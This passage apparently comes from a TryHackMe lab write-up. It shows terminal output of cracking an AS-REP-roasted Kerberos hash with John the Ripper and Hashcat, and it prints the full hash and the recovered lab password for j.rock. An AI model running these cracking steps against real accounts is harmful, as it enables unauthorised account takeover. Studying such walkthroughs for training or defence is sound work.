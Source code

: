 ```bash
┌──(kali㉿kali)-[~/linWinPwn]
└─$ john /home/kali/tryhackme/services/john_hash.txt && john --show /home/kali/tryhackme/services/john_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
**j.rock@SERVICES.LOCAL:Serviceworks1

1 password hash cracked, 0 left**

[*] Cracking found hashes using john the ripper
[i] Using /usr/share/wordlists/rockyou.txt wordlist...
[*] Launching john on collected asreproast hashes. This may take a while...
[i] Press CTRL-C to abort john...
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Serviceworks1    (j.rock@SERVICES.LOCAL)     
1g 0:00:00:08 DONE (2023-07-06 14:37) 0.1226g/s 1301Kp/s 1301Kc/s 1301KC/s SexieEyez1..Sergio03
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
[+] Printing cracked AS REP Roast hashes...
**j.rock@SERVICES.LOCAL:Serviceworks1**

1 password hash cracked, 0 left
```

## Cracking the krb5 hash with Hashcat

We can also crack and show the hash with Haschat.

`hashcat -m 18200 /home/kali/tryhackme/services/hashcat_hash.txt ~/wordlists/rockyou.txt --force --show`

```bash
hashcat -m 18200 /home/kali/tryhackme/services/hashcat_hash.txt ~/wordlists/rockyou.txt --force --show

┌──(kali㉿kali)-[~/linWinPwn]
└─$ hashcat --show /home/kali/tryhackme/services/hashcat_hash.txt                                           
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5asrep$23$j.rock@SERVICES.LOCAL:c4cf237723cb3a680a89d7db138ef4ad$2c32b8d635aa2d7ea01bf23c44a734d89f37cb346c1f230e71ccd317086d3867a87758ef9fa204d783b8d80fba1a758b5a7cf664a88a727ddcbca7b8831c3af71780f3e4c7bdf14da7a3f1171059488cd18985db3e63549ef8193c7b40f6eae8d23b5074f8fce31da5491ab35958c6459e38622714d62e7dc489da6407b8d8b78bb2088eed227c8e80412e8deba9a28c5533459d64a893fad789de79de8bfe476cbeb3b5baf2640ff237ab54beaf3dae2085bb26e9db9e9f57c9cfbedb68ec11276f882602fd006899cb562a5e15ac1b115edd6846eec63fc6aa08964034049920a4e042e1f9c9804ec3c12a278d159d:Serviceworks1
```
